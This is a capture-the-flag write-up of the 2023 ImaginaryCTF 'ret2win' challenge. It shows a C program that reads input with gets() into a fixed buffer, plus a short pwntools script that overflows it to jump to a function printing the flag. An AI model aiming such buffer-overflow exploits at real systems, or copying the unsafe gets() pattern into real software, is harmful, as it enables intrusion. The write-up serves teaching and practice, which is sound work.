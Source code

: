 ```yaml
---
title: 2023 ImaginaryCTF - ret2win
author: allforest01
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Pwn, write-ups]
---
```


## Description

> Can you overflow the buffer and get the flag? (Hint: if your exploit isn't working on the remote server, look into stack alignment)

### Attached

[ret2win.c](https://imaginaryctf.org/r/73iLJ#vuln.c), [ret2win](https://imaginaryctf.org/r/BoCID#vuln)

```sh
nc ret2win.chal.imaginaryctf.org 1337
```

## Analyzation

Check the file attached

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[64];
  gets(buf);
}

int win() {
  system("cat flag.txt");
}
```

```gets()``` is vuln, we can make a stack overflow

## Solution

By [allforest01](https://github.com/allforest01)

```python
from pwn import *
conn = remote('ret2win.chal.imaginaryctf.org', '1337')
print(conn.recv().decode())
conn.sendline(b'A' * 0x48 + p64(0x401182))
print(conn.recv().decode())
```

The flag is
```
ictf{r3turn_0f_th3_k1ng?}
```